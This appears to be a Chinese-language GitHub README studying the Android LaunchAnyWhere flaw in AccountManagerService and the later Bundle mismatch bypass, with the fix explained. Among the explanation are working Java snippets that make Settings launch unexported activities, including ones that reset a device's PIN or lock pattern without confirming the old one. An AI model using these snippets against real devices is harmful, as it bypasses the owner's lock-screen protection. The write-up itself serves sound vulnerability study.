



# launchanywhere
study launch anywhere and bundle mismatch bug

## 前言


今年3月份，知名反病毒软件公司卡巴斯基实验室发布了一份关于中国电商平台拼多多的调查报告，称该平台的安装程序中含有恶意代码。这一消息引起了广泛的关注和讨论，也引发了人们对于拼多多平台安全性的担忧

作为技术开发人员，我看到了PDD对安卓OEM源码中的漏洞的深入研究。

> 了解和学习`Android`漏洞原理有以下几个用处：

- 提高应用安全性：通过了解漏洞原理，开发者可以更好地了解漏洞的产生机理，进而在应用开发过程中采取相应的安全措施，避免漏洞的产生，提高应用的安全性。

- 提升应用质量：学习漏洞原理可以帮助开发者更好地理解 `Android`平台的工作原理，深入了解操作系统的内部机制，有助于开发高质量的应用程序。

- 改善代码风格：学习漏洞原理可以帮助开发者更好地理解代码的运行方式和效果，从而提高代码的可读性和可维护性。

- 了解安全防护技术：学习漏洞原理可以帮助开发者了解目前主流的安全防护技术，掌握安全防护的最佳实践，从而更好地保障应用程序的安全性。

总之，了解和学习`Android`漏洞原理可以帮助开发者更好地理解操作系统的内部机制，提高应用程序的安全性、质量和可维护性。

## LaunchAnyWhere漏洞

这是一个`AccountManagerService`的漏洞，利用这个漏洞，我们可以任意调起任意未导出的`Activity`，突破进程间组件访问隔离的限制。这个漏洞影响`2.3 ~ 4.3`的安卓系统。
普通应用（记为AppA）去请求添加某类账户时，会调用`AccountManager.addAccount`,然后`AccountManager`会去查找提供账号的应用（记为AppB）的`Authenticator`类，调用`Authenticator. addAccount`方法；AppA再根据AppB返回的Intent去调起AppB的账户登录界面。

## 关于AccountManagerService

`AccountManagerService`同样也是系统服务之一，暴露给开发者的的接口是`AccountManager`。该服务用于管理用户各种网络账号。这使得一些应用可以获取用户网络账号的token，并且使用token调用一些网络服务。很多应用都提供了账号授权功能，比如微信、支付宝、邮件Google服务等等。

关于`AccountManager`的使用，可以参考Launchanywhere的Demo：[https://github.com/stven0king/launchanywhere.git](https://github.com/stven0king/launchanywhere.git)

由于各家账户的登陆方法和token获取机制肯定存在差异，所以`AccountManager`的身份验证也被设计成可插件化的形式：由提供账号相关的应用去实现账号认证。提供账号的应用可以自己实现一套登陆UI，接收用户名和密码；请求自己的认证服务器返回一个`token`；将token缓存给`AccountManager`。

可以从“设置-> 添加账户”中看到系统内可提供网络账户的应用：


如果应用想要出现在这个页面里，应用需要声明一个账户认证服务`AuthenticationService`：

```xml
<service android:name=".AuthenticationService"
    android:exported="true"
    android:enabled="true">
    <intent-filter>
        <action android:name="android.accounts.AccountAuthenticator" />
    </intent-filter>
    <meta-data
        android:name="android.accounts.AccountAuthenticator"
        android:resource="@xml/authenticator" />
</service>
```

并在服务中提供一个`Binder`:

```java
public class AuthenticationService extends Service {
    private AuthenticationService.AccountAuthenticator mAuthenticator;
    private AuthenticationService.AccountAuthenticator getAuthenticator() {
        if (mAuthenticator == null)
            mAuthenticator = new AuthenticationService.AccountAuthenticator(this);
        return mAuthenticator;
    }
    @Override
    public void onCreate() {
        mAuthenticator = new AuthenticationService.AccountAuthenticator(this);
    }
    @Override
    public IBinder onBind(Intent intent) {
        Log.d("tanzhenxing33", "onBind");
        return getAuthenticator().getIBinder();
    }
    static class AccountAuthenticator extends AbstractAccountAuthenticator {
        /****部分代码省略****/
        @Override
        public Bundle addAccount(AccountAuthenticatorResponse response, String accountType, String authTokenType, String[] requiredFeatures, Bundle options) throws NetworkErrorException {
            Log.d("tanzhenxing33", "addAccount: ");
            return testBundle();
        }
    }
}
```

声明账号信息：`authenticator.xml`

```xml
<?xml version="1.0" encoding="utf-8"?>
<account-authenticator xmlns:android="http://schemas.android.com/apk/res/android"
    android:accountType="com.tzx.launchanywhere"
    android:icon="@drawable/ic_launcher"
    android:label="@string/app_name">
</account-authenticator>
```

## 漏洞原理

普通应用（记为AppA）去请求添加某类账户时，会调用`AccountManager.addAccount`,然后`AccountManager`会去查找提供账号的应用（记为AppB）的`Authenticator`类，调用`Authenticator.addAccount`方法；AppA再根据AppB返回的`Intent`去调起AppB的账户登录界面。

这个过程如图所示：



我们可以将这个流程转化为一个比较简单的事实：
- AppA请求添加一个特定类型的网络账号
- 系统查询到AppB可以提供一个该类型的网络账号服务，系统向AppB发起请求
- AppB返回了一个intent给系统，系统把intent转发给appA
- AccountManagerResponse在AppA的进程空间内调用 startActivity(intent)调起一个Activity;
- AccountManagerResponse是FrameWork中的代码， AppA对这一调用毫不知情。

这种设计的本意是，`AccountManagerService`帮助AppA查找到AppB账号登陆页面，并呼起这个登陆页面。而问题在于，AppB可以任意指定这个intent所指向的组件，AppA将在不知情的情况下由`AccountManagerResponse`调用起了一个`Activity`. 如果AppA是一个system权限应用，比如`Settings`，那么AppA能够调用起任意AppB指定的未导出`Activity`。

## 如何利用

上文已经提到过，如果假设AppA是Settings，AppB是攻击程序。那么只要能让Settings触发addAcount的操作，就能够让AppB launchAnyWhere。而问题是，怎么才能让Settings触发添加账户呢？如果从“设置->添加账户”的页面去触发，则需要用户手工点击才能触发，这样攻击的成功率将大大降低，因为一般用户是很少从这里添加账户的，用户往往习惯直接从应用本身登陆。
不过现在就放弃还太早，其实Settings早已经给我们留下触发接口。只要我们调用`com.android.settings.accounts.AddAccountSettings`，并给`Intent`带上特定的参数，即可让``Settings触发`launchAnyWhere`：

```java
Intent intent1 = new Intent();
intent1.setComponent(new ComponentName("com.android.settings", "com.android.settings.accounts.AddAccountSettings"));
intent1.setAction(Intent.ACTION_RUN);
intent1.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
String authTypes[] = {"自己的账号类型"};
intent1.putExtra("account_types", authTypes);
AuthenticatorActivity.this.startActivity(intent1);
```

这个过程如图Step 0所示：



## 应用场景

主要的攻击对象还是应用中未导出的`Activity`，特别是包含了一些`intenExtra`的`Activity`。下面只是举一些简单例子。这个漏洞的危害取决于你想攻击哪个`Activity`，还是有一定利用空间的。比如攻击很多app未导出的`webview`，结合`FakeID`或者`JavascriptInterface`这类的浏览器漏洞就能造成代码注入执行。

### 重置pin码

- 绕过pin码认证界面，直接重置手机系统pin码。

```java
intent.setComponent(new ComponentName("com.android.settings","com.android.settings.ChooseLockPassword"));
intent.setAction(Intent.ACTION_RUN);
intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
intent.putExtra("confirm_credentials",false);
final Bundle bundle = new Bundle();
bundle.putParcelable(AccountManager.KEY_INTENT, intent);
return bundle;
```

### 重置锁屏

绕过原有的锁屏校验，直接重置手机的锁屏密码。

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.android.settings", "com.android.settings.ChooseLockPattern"));
intent.setAction(Intent.ACTION_RUN);
intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
final Bundle bundle = new Bundle();
bundle.putParcelable(AccountManager.KEY_INTENT, intent);
return bundle;
```

## 漏洞修复

安卓4.4已经修复了这个漏洞，检查了Step3中返回的intent所指向的Activity和AppB是否是有相同签名的。避免了luanchAnyWhere的可能。
Android4.3源代码：[http://androidxref.com/4.3_r2.1/xref/frameworks/base/services/java/com/android/server/accounts/AccountManagerService.java](http://androidxref.com/4.3_r2.1/xref/frameworks/base/services/java/com/android/server/accounts/AccountManagerService.java)
Android4.4源代码：[http://androidxref.com/4.4_r1/xref/frameworks/base/services/java/com/android/server/accounts/AccountManagerService.java](http://androidxref.com/4.4_r1/xref/frameworks/base/services/java/com/android/server/accounts/AccountManagerService.java)
官网漏洞修复的Diff：[https://android.googlesource.com/platform/frameworks/base/+/5bab9da%5E%21/#F0](https://android.googlesource.com/platform/frameworks/base/+/5bab9da%5E%21/#F0)



文章到这里就全部讲述完啦，若有其他需要交流的可以留言哦~！

PS:故事到这里就结束了么？

> 这个补丁在当时是没什么问题，但是等到2017年，有海外的研究人员在一份恶意样本中发现，可以利用`Parcelable`反序列化绕过这个补丁，由于`Google`的补丁是在`system_server`中检查Intent，并且又通过`AIDL`传给`Settings`之后启动界面，这其中跨越了进程边界，也就涉及到一次序列化和反序列化的过程，那么我们如果通过`Parcelable`反序列化漏洞的字节错位，通过精确的布局，使得`system_server`在检查`Intent`时找不到这个`Intent`，而在错位后`Settings`却刚好可以找到，这样就可以实现补丁的绕过并再次实现`LaunchAnyWhere`，研究人员将发现的这种漏洞利用方式命名为`Bundle mismatch`。

如果感兴趣可以继续阅读下面的文章：

[Bundle数据结构和反序列化分析](file/bundle-data-structure.md)

[Bundle 风水 - Android Parcel 序列化与反序列化不匹配系列漏洞](file/bundle-fengshui.md)